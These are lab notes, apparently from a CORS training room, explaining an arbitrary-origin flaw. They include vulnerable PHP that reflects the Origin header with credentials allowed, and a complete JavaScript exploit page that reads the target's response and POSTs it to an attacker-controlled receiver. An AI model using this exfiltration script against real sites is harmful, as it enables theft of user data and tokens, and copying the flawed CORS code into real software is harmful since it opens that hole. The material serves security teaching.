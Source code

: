 Exploiting an Arbitrary Origin vulnerability is relatively easy compared to other CORS vulnerabilities since the application accepts cross-origin requests from any domain name. For example, below is the vulnerable code of [http://corssop.thm/arbitrary.php](http://corssop.thm/arbitrary.php):

```php
if (isset($_SERVER['HTTP_ORIGIN'])){
    header("Access-Control-Allow-Origin: ".$_SERVER['HTTP_ORIGIN']."");
    header('Access-Control-Allow-Credentials: true');
}
```

The code above implements a flawed CORS policy since it echoes back the `Origin` header from the client request in the `Access-Control-Allow-Origin` header without proper validation. An attacker might use an origin like `http://evilcors.thm` and the server will echo it back.
	![](Pasted%20image%2020250206093945.png)

The exploit server has an existing JavaScript code that makes cross-origin requests to the target application. To exploit the vulnerable code above, go to attacker server [http://exploit.evilcors.thm](http://exploit.evilcors.thm/)  where this exploit is stored for delivery.
```html
<html>
  <head>
  <title>Data Exfiltrator Exploit</title>
  <script>
    //Function which will make CORS request to target application web page to grab the HTTP response
    function exploit() {
	    var xhttp = new XMLHttpRequest();
	    xhttp.onreadystatechange = function() {
	      if (this.readyState == 4 && this.status == 200) {
	        var all = this.responseText;
	        exfiltrate(all);
	     }
	    };
	    xhttp.open("GET", "{http://corssop.thm/arbitrary.php}", true);
	    xhttp.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,\/;q=0.8");
	    xhttp.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
	    xhttp.withCredentials = true;
	    xhttp.send();
	    }

    function exfiltrate(data_all) {
          var xhr = new XMLHttpRequest();
          xhr.open("POST", "{http://10.10.126.60:{81}/receiver.php}", true); //Replace the URL with attacker controlled Server

          xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
          xhr.withCredentials = true;
          var body = data_all;
          var aBody = new Uint8Array(body.length);
          for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i);
          xhr.send(new Blob([aBody]));
    }
    </script>
    
</head>
<body onload="exploit()">
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
<textarea id="load" style="width: 1183px; height: 305px;">```

![](Pasted%20image%2020250206103242.png)

Once done with the updates, click the Save button. To verify if the exploit is working, click the **View exploit** button. This will open a new tab containing the exploit code saved in the hosting server.

In the newly open tab, open Developer tools > Network. There should be two XHR connections. The first request is sent to the target website, while the second is sent to the exfiltrating server.

![](Pasted%20image%2020250206120443.png)
	![](Pasted%20image%2020250206121704.png)
![](Pasted%20image%2020250206125027.png)	![](Pasted%20image%2020250206122539.png)

now the request is captured on our attack machine on data.txt file	
	![](Pasted%20image%2020250206122100.png)

In the real world, if the target response includes sensitive data like user data, tokens, and API tokens, your JavaScript can capture this and potentially send it to a server under your control. 

To summarize, below is the entire process of the exploitation once the user clicks or visits the hosted exploit code:
	![](Pasted%20image%2020250206122811.png)